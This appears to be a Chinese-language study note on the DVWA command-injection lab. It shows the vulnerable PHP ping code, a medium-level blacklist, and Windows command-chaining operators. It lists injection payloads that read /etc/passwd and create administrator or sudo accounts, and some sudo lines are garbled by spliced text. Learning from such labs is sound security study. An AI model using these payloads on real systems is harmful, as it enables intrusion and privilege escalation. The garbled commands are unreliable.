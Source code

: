 <center>Command Injection命令注入</center>









## Command Injection命令注入

> 命令注入











### 1. low

> 低级
>
> 代码：[url](http://192.168.0.111:8000/vulnerabilities/view_source.php?id=exec&security=low)

```shell
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

> 没有做任何过滤
>
> linux/windowns 的基本命令

````shell
# win
127.0.0.1 && ipconfig
# 创建用户提升管理员
net user UserName PassWord /add
net localgroup Administrators UserName /add


# linux 等
127.0.0.1 | ip addr
127.0.0.1 | cat /etc/passwd 

# 创建用户
sudo useradd -m username    # -m 创建家目录
# 设置密码
sudo passwd username
# 添加到 sudo 组
sudo usermod -aG sudo username    # Ubuntu/Debian
# 或
sudo usermod -aG wheel usernam# 安全编辑 sudoers 文件
sudo visudo

# 添加以下行
username ALL=(ALL:ALL) ALLe   # CentOS/RHEL/Arch Linux
# 安全编辑 sudoers 文件
sudo visudo

# 添加以下行
username ALL=(ALL:ALL) ALL
````

> 扩展：

1. windows 的与或非

* 单个 & (简单连接符)：

```cmd
# 无条件执行后续命令，不管前面的命令是否成功
command1 & command2    # 两个命令都会执行

# 示例
dir & echo "这句话总会显示"
```



* 与操作 (AND)：

```cmd
# 使用 && 
command1 && command2    # command1 成功才执行 command2

# 示例
dir && echo "目录列表完成"
```

* 或操作 (OR)：

```cmd
# 使用 ||
command1 || command2    # command1 失败才执行 command2

# 示例
dir nonexist.txt || echo "文件不存在"
```

* 非操作 (NOT)：

```cmd
# 使用 NOT
IF NOT EXIST file.txt echo "文件不存在"

# 使用 !
IF !ERRORLEVEL! EQU 0 echo "命令成功"
```

* if判断

```cmd
:: IF 语句中的与或非
IF EXIST file.txt (
    IF NOT EXIST backup.txt (
        echo "file.txt 存在但 backup.txt 不存在"
    )
)

:: 组合使用
dir file.txt && echo "存在" || echo "不存在"
```

* 





### 2. medium

> 中级
>
> 代码直接点击 `view source`

```shell
# 做了过滤
    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    

```



